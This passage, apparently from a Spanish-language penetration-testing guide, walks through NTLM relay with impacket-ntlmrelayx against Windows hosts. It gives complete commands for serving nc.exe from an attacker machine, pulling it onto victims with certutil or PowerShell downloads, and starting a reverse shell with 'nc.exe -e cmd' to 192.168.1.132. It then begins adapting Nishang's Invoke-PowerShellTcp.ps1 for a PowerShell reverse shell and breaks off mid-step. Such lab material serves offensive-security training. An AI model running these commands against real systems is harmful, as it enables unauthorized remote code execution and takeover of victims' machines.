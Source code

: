 * Comprobamos que tenemos permisos en el objetivo.
* Subimos un binario de **nc.exe** a la victima.
* Ejecutamos una shell reversa desde la victima.

El primer paso ya lo hemos realizado en el paso anterior, si **impacket-ntlmrelayx** tiene capacidad de dumpear la SAM, podemos esperar tener permisos de ejecución de comandos.

Para el segundo paso, ejecutamos un **servidor http** con python en la máquina atacante y desde la victima descargamos el binario de **netcat** en `C:\Windows\Temp`

`python3 -m http.server`

![servidor HTTP activo.](../../.gitbook/assets/ntlmrelay3.png)

Para subir el binario de netcat a la máquina atacante cualquiera de los tres métodos de abajo sirven.

`sudo impacket-ntlmrelayx -tf targets.txt -c "certutil.exe -f -urlcache -split http://192.168.1.132:8000/nc.exe C:\Windows\Temp\nc.exe" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.132:8000/nc.exe','C:\Windows\Temp\nc.exe')" -smb2support`

`sudo impacket-ntlmrelayx -tf targets.txt -c "Powershell (Invoke-WebRequest -Uri 'http://192.168.1.132:8000/nc.exe' -OutFile 'C:\Windows\Temp\nc.exe')" -smb2support`

![Ejecución correcta del comando certutil.](../../.gitbook/assets/ntlmrelay4.png)

Una vez cumplidas las dos primeras acciones, procedemos a ejecutar una reverse shell. Para ello ponemos en el atacante un nc a la escucha y ejecutamos el nc en la victima

`atacante --> nc -lvnp PUERTO` Para obtener una shell más comoda podemos utilizar **rlwrap**.

`victima --> sudo impacket-ntlmrelayx -tf targets.txt -c "C:\Windows\Temp\nc.exe -e cmd 192.168.1.132 4343" -smb2support`

![¡Premio!](../../.gitbook/assets/ntlmrelay5.png)

### 4. Shell interactiva premium

¿Y si hubiera una forma más sencilla de cumplir nuestro objetivo final de obtener una shell interactiva?

Para esto utilizamos los recursos de Nishang. Vamos a utilizar el recurso Invoke-PowershellTCP.ps1 así que nos lo llevamos a nuestro directorio de trabajo (si no sabemos donde está lo buscamos con locate:

`locate nishang`

`cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ./PS.ps1`

Ahora que ya tenemos el sript, tenemos que modificarlo:

* Copiamos la linea marcada al final del script.

![Linea a copiar.](../../.gitbook/assets/nishang1.png)

* Introducimos los datos de nuestra máquina en esta linea final.

